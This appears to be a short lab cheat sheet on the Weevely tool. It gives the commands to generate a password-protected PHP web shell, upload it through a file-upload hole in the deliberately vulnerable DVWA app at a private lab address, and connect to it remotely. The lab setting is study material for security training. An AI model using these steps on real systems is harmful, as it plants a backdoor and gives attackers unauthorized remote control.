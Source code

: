 # Weevely

## Usage
1. Create backdoor in Kali
   - ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Send a request to uploaded php file (run it)
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Other Weevely commands
- ```help```

